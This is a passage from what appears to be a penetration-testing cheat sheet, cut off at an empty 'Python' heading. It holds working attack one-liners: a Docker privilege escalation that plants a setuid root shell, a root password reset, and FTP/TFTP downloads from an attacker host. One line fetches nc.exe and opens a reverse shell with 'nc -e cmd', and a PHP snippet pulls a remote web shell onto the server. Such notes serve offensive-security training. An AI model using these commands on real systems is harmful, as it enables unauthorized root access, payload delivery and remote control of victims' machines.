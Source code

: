 ### Docker Privilege Esclation

```bash
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
```

### Resetting root Password

```bash
echo "root:spotless" | chpasswd
```

### Uploading Files to Target Machine

#### TFTP

```bash
#TFTP Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start

# Windows
tftp -i $ATTACKER get /download/location/file /save/location/file
```

#### FTP

```bash
# Linux: set up ftp server with anonymous logon access;
twistd -n ftp -p 21 -r /file/to/serve

# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
echo open $ATTACKER>ftp-commands.txt
echo anonymous>>ftp-commands.txt
echo whatever>>ftp-commands.txt
echo binary>>ftp-commands.txt
echo get file.exe>>ftp-commands.txt
echo bye>>ftp-commands.txt 
ftp -s:ftp-commands.txt

# Or just a one-liner
(echo open 10.11.0.245&echo anonymous&echo whatever&echo binary&echo get nc.exe&echo bye) > ftp.txt & ftp -s:ftp.txt & nc.exe 10.11.0.245 443 -e cmd
```

#### PHP

```php
<?php file_put_contents("/var/tmp/shell.php", file_get_contents("http://10.11.0.245/shell.php")); ?>
```

#### Python
